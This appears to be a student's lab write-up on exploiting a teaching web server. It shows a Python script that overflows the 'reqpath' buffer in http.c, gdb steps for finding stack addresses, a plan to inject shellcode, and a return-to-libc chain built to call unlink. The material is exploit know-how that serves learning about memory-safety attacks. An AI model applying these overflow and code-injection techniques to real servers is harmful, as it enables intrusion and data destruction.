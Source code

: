 # Lab 1

## Part 1: Finding buffer overflows

There is one buffer overflow we can find in the `http.c`, the `reqpath`
can be overflowed.

So I write a brute-force python script:

```py
def build_exploit(shellcode):
    junk_data = b"22"
    req = b"GET " + b"/1" + junk_data * 2060 + b" HTTP/1.0\r\n\r\n"
    return req
```

## Part 2: Code injection

Instead of using brute-force ways, we should calculate carefully how many bytes
we need to inject. It is still easy.

First, we should use `gdb` to hack the web system.

```sh
b process_client
c
x/16x reqpath
info frame
```

+ `reqpath` start address is at `0x7fffffffdca0`
+ `process_client` functions return address is at `0x7fffffffecb8`

Now, it is obvious. We should set the return address to be `0x7fffffffecc0`
which is just behind the return address, and the shell code should be put in
the `0x7fffffffecc0`

## Part 3

Still we need to use `reqpath` overflow. So the idea is that first we need to
make `process_client` returns to `accidentally` function and when `accidentally` return,the next instruction should call `unlink`.

Let's look at what does `accidentally` does:

```c
void accidentally(void)
{
       __asm__("mov 16(%%rbp), %%rdi": : :"rdi");
}
```

Well, we need to change `rbp`'s value. So we could make the following
memory layout:

+ `0x7fffffffecb8`: the `accidentally` start address
+ `0x7fffffffecc0`: the `unlink` start address
+ `0x7fffffffecc8`: the parameter start address `0x7fffffffecd0`.
+ `0x7fffffffecd0`: the parameter

At last, we need to provide the start address of the parameter.

Now we can code.
